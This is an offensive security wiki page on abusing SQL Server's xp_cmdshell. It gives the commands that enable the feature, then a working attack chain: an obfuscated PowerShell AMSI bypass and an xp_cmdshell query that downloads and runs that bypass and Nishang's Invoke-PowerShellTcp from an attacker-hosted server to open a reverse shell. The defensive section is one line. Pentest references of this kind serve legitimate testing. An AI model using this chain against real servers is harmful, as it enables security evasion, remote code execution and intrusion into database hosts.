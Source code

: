```yaml
---
description: xp_cmdshell could be used to execute commands on the SQL Server.
---
```


# Executing Commands

## Attacking

### How it works

[xp\_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) is a SQL Server functionality that is disabled by default. However it can be enabled using sp\_configure. It spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text. The Windows process spawned by **** xp\_cmdshell has the same security rights as the SQL Server service account.

### Executing the attack

### Using MSSQL-CLI

1. Enable xp\_cmdshell with the following commands:

```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

![](<../../../.gitbook/assets/image (69).png>)

2\. Execute commands with xp\_cmdshell:

```
EXEC master..xp_cmdshell 'whoami'
```

![](<../../../.gitbook/assets/image (60) (1).png>)

3\. Gain a reverse shell and execute commands by executing the following query after doing the following:

* Create a webserver directory to host some files.
* Download [Invoke-PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
* Save a amsi bypass in amsi.txt, for example.

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
EXEC master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/amsi.txt''); iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/Invoke-PowerShellTcp2.ps1'')"'
```

This query will download and load into memory the `amsi.txt` file and then the `Invoke-PowerShellTcp` script creating a reverse shell. These should be hosted on your webserver on the attacking machine.

![](<../../../.gitbook/assets/image (45) (1).png>)

### Using HeidiSQL



## Defending

### Recommendations

* Sysadmin users can enable xp\_cmdshell, so limit these users.

### Detection



## References

{% embed url="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15" %}
